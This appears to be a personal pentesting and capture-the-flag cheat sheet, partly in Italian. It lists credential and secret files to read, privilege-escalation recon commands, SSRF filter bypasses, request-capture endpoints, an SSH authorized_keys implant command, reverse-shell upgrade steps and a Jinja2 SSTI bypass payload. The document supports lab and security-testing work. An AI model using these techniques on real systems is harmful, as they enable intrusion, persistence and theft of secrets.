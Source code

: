 ## paths
/etc/nginx/nginx.conf\
/etc/nginx/sites-enabled/(deafult)\
/etc/nginx/sites-available\
/etc/hosts\
$HOME/.shh/id_rsa\
/proc/self/environ\
/proc/self/cmdline

Nella root della webApp:\
index.js/html\
main.js/html

## commands
netstat -antp\
sudo -l\
whoami\
linpeas - WINpeas\

Bypass ip filter or perform SSRF to localhost:
- http://localtest.me
- Append to url: .nip.io

ngrok tcp 80\
`dig` to resolve your tunnel hostname and use ip instead

## websites
bypass local security restriction: https://gtfobins.github.io/ \
payload: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md \
https://book.hacktricks.xyz/ \
intercept and modify requests, public endpoint:
- https://pipedream.com/requestbin 
- https://webhook.site/#!/view/36d22d40-393f-4680-a239-cf0d7488e238 
- https://testt.free.beeceptor.com

# notes
bypass http blacklist filter with `dict://` `gopher://`
test antivirus or signature check using EICAR Files

## Implanting SSH keys
`echo "Your SSH public key here (id_rsa.pub)" > /home/<user>/.ssh/authorized_keys`

## Transferring files with SCP
from destination to source:
`scp path_file_to_send dest_user@dest_ip:/path_to_receive`

from source to destination:
`scp dest_user@dest_ip:/path_to_receive files_received `

## Reverse Shell Upgrade
quando si ottiene la shell, comunque non è possibile usare le frecce ecc perché escono caratteri strani quindi serve fare un "upgrade" della shell tramite 

    python3 -c 'import pty; pty.spawn("/bin/bash")' 
    ctrl + z 
    stty raw -echo; fg 
    doppio invio 
 
in aggiunta: 

    export TERM=xterm 
in aggiunta: (per sistemare le stringhe lunghe) 

    stty -a sulla propria macchina 
    stty rows ** columns **  (copiando i valori del result della propria macchina al passo 6 
## CSS Injection
when page header are set like font: None *
## Jinja2 SSTI
bypass blacklisted character: https://ctf.zeyu2001.com/2022/securinets-ctf-finals-2022/strong \
using filter to get arguments from url or headers or form (if it is a post) which contains desidered blacklisted char\
example: https://github.com/Gianlush/Workspace_Ethical_Hacking/tree/main/hack_the_box/htb_challenges/web/DoxPit - `request|attr('args')|list|last`
